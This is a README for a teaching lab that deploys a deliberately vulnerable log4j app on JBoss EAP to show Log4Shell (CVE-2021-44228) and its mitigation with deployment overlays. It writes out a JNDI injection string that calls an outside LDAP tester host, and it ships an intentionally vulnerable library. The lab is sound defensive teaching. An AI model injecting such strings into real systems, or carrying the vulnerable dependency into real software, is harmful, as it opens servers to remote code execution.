 log4shell-lab: Test Log4Shell mitigation via Deployment Overlays
=================================================
Author: Trevor Terris  
Level: Intermediate  
Technologies: EJB, JSF, WAR  
Summary: Small sample application to validate log4j mitigation via JBoss EAP deployment overlays  
Target Product: EAP  
Source: <https://github.com/tkterris/log4shell-lab.git>  

WARNING
-----------

As-is, this application is vulnerable to CVE-2021-44228! DO NOT RUN THIS IN PRODUCTION, this is intended for
educational purposes only!

What is it?
-----------

This example application is vulnerable to the "Log4Shell" vulnerability, CVE-2021-44228.

The example follows the common "Hello World" pattern. These are the steps that occur:

1. A JSF page asks the user for their name.
1. On clicking submit, the name is sent to a managed bean named `Greeter`.
1. The name is printed to log output via log4j, using a library version vulnerable to Log4Shell.

System requirements
-------------------

The application this project produces is designed to be run on Red Hat JBoss Enterprise Application Platform 7.4 or later. 


Configure Maven 
-------------

If you have not yet done so, you must [Configure Maven](../README.md#configure-maven) before testing the quickstarts.


Start the JBoss Server
-------------------------

1. Open a command line and navigate to the root of the JBoss server directory.
2. The following shows the command line to start the server:

        For Linux:   JBOSS_HOME/bin/standalone.sh
        For Windows: JBOSS_HOME\bin\standalone.bat


Build and Deploy the lab
-------------------------

_NOTE: The following build command assumes you have configured your Maven user settings. If you have not, you must include Maven setting arguments on the command line. See [Build and Deploy the Quickstarts](../README.md#build-and-deploy-the-quickstarts) for complete instructions and additional options._

1. Open a command line and navigate to the root directory of this quickstart.
1. Type this command to build and deploy the archive: `mvn clean install`
1. Deploy the compiled "log4shell-lab.war" artifact to the EAP server.
 

Access the application 
---------------------

The application will be running at the following URL <http://localhost:8080/log4shell-lab>.


Investigate the Log4Shell vulnerability
----------------------------

1. Fetch a test payload from the Huntress Log4Shell tester page [here](https://log4shell.huntress.com/). For example: `${jndi:ldap://log4shell.huntress.com:1389/GENERATED_TOKEN_HERE}`
1. In the JSF page located at `http://localhost:8080/log4shell-lab`, enter the Huntress Log4Shell payload obtained in the previous step.
1. View the results for that payload, as described on the Huntress Log4Shell tester page. The URL will be formatted like so: [https://log4shell.huntress.com/view/GENERATED_TOKEN_HERE](https://log4shell.huntress.com/view/GENERATED_TOKEN_HERE). If the application is vulnerable, the test payload will result in an LDAP request sent to the Huntress page, which will be logged on the results page.

Mitigation via Deployment Overlays
----------------------------

This issue can be mitigated in JBoss EAP without recompiling the artifact via [Deployment Overlays](https://access.redhat.com/solutions/383393).

1. Download a version of the `log4j-core` and `log4j-api` library JARs that have had the Log4Shell vulnerability patched. These JARs can be accessed [here](https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar) and [here](https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar).
1. In the JBoss CLI, execute the following command to overlay log4j-core: `deployment-overlay add --name=log4shellOverlay --content=/WEB-INF/lib/log4j-core-2.11.2.jar=/path/to/patched/log4j-core.jar --deployments=log4shell-lab.war --redeploy-affected`
1. In the JBoss CLI, execute the following command to overlay log4j-api: `deployment-overlay add --name=log4shellApiOverlay --content=/WEB-INF/lib/log4j-api-2.11.2.jar=/path/to/patched/log4j-api.jar --deployments=log4shell-lab.war --redeploy-affected`
1. Rerun the investigation steps. There should be no additional requests listed on the Huntress results page, confirming that the application is not longer vulnerable.

Credits
----------------------------

- [EAP Quickstarts](https://github.com/jboss-developer/jboss-eap-quickstarts/)
- [Huntress Log4Shell Vulnerability Tester](https://log4shell.huntress.com/)
